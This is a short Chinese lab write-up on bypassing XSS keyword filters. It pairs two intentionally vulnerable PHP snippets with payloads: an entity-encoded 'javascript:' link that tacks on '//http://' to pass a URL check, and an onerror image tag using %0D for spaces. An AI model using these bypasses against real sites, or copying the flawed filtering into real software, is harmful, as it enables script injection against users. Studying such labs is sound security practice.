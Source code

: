 #### filter1:替换关键字以及url检测
思路:html实体编码绕过关键字,使用注释符后加http://绕过校验(或者使用伪协议支持%0d容错性换行解析)
payload1:```javas&#x63ript:alert(1)//http://www.baidu.com```

payload2:```javas&#x63ript:%0dhttp://www.baidu.com%0dalert(1)```
```
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=index.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
```
![](https://github.com/Conanjun/xss-vulnhub/blob/master/filters-bypass/filter1/1.png)

#### filte2 替换关键字
思路:过滤了script可以用on事件，过滤了空格可以用%0d%0a绕过

payload:```<img%0Dsrc=1%0Donerror=alert(1)>```
```
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "<center>".$str5."</center>";
?>
```
![](https://github.com/Conanjun/xss-vulnhub/blob/master/filters-bypass/filter2/1.png)
